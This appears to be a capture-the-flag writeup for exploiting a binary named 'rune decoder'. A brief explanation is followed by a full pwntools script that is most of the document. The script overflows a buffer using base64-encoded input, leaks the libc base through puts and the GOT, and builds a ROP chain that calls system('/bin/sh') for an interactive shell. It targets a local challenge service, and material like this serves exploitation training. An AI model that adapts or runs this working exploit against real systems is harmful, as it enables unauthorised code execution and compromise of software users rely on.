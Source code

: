 # Writeup for exploit - `rune decoder`

## Goal

The goal was to exploit a gap in `decoder` software to perform an attack, which will:
1. Show the base address of `libc`.
2. Run the `/bin/sh` shell. 

### 1. Leak of `libc` location

To get the base address of `libc`, `puts()` function and GOT (Global Offset Table) were used.

### 2. Execution of `/bin/sh` shell

After getting the `libc` address the script calculated the address of `system()` function and found the `/bin/sh` path. Then it constructed a ROP chain, which:
- Put a pointer to `/bin/sh` in `RDI` registry.
- Executed `ret` instruction to then execute `system()` function.

## Exploit script

```python
#!/usr/bin/env python
from pwn import *

##### SPECIFY BINARY #####
elf = context.binary = ELF('../src/decoder')
libc = ELF('../src/lib/libc.so.6')

context.terminal = ['gnome-terminal', '--tab', '--']

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([elf.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        ##### SPECIFY SERVER AND PORT #####
        SERVER = 'localhost'
        PORT = 1337 
        return remote(SERVER, PORT, *a, **kw)
    else:
        return process([elf.path] + argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

import base64

io = start()

fill = b'A'*128  # Wypełnienie bufora

# Znalezienie adresów POP RDI i RET
POP_RDI = next(elf.search(asm("pop rdi; ret"), executable=True))
RET = next(elf.search(asm("ret"), executable=True))

# Pierwszy łańcuch ROP do wycieku adresu `libc`
ropchain = flat(
    POP_RDI,
    elf.got['puts'],
    elf.plt['puts'],
    elf.sym['_start']
)

payload = base64.b64encode(fill)
payload += b'===='*7  # Dodanie separatorów
payload += base64.b64encode(b'AA'+ropchain)

io.clean()
io.sendline(payload)
io.recvuntil(b'bye')
io.recvline()

# Odczytanie i obliczenie adresu `libc`
puts_leak = u64(io.recv(6).ljust(8, b'\x00'))
libc.address = puts_leak - libc.sym['puts']
log.success(f'libc base: {hex(libc.address)}')

# Przygotowanie drugiego łańcucha ROP do wykonania `/bin/sh`
BINSH = next(libc.search(b'/bin/sh\x00'))

ropchain2 = flat(
    POP_RDI,
    BINSH,
    RET,
    libc.sym['system']
)

payload = base64.b64encode(fill)
payload += b'===='*7
payload += base64.b64encode(b'AA'+ropchain2)

io.sendline(payload)

# Uzyskanie interaktywnej powłoki
io.interactive()
```
